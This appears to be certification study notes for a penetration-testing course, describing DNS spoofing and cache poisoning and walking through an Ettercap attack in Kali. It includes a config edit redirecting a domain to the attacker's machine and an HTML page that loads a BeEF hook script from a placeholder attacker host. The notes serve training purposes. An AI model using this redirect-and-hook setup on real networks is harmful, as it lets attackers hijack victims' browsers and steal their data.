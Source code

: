 ### DNS Spoofing
* An attack method used to impersonate a victim's DNS server, forcing them to navigate to a malicious website.
* This attack is accomplished through MitM (Man in The Middle).
* The goal is to exploit the target with a malicious redirect or steal sensitive information from a fake web page.

### DNS Cache Poisoning
* The DNS resolver cache is overwritten on the DNS server with a malicious web address, and the user will receive the malicious site instead of the intended one.

**Use Ettercap in Kali to conduct these attacks**

## Ettercap DNS

1) Modify the etter.dns file
* Location: /etc/ettercap/etter.dns
* Add an entry to the file for the domain name example.com and have it point to your kali box.
* Look for the line "microsoft sucks ;) on line 57

2) Edit etter.conf file
* Location: /etc/ettercap/etter.conf
* Change two config settings: ec_uid and ec_gid. Set both to equal 0.
* Save and exit the file.

3) Create index.html
* Create an index.html in /tmp. The code to input is below
````
<html>
      <h1>You got pwnd!!</h1>
      <script src='http://HOST_IP:3000/hook.js'></script>
</html>
````

* Use the Python SimpleHTTPServer module to host the web page on port 80
````
python -m SimpleHTTPServer 80
````

4) Launch BeEf
````
beef-xss
````

5) Launch Ettercap
````
ettercap -G
````
* "Sniffing at startup" should be selected automatically.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/5_ettercap.png)

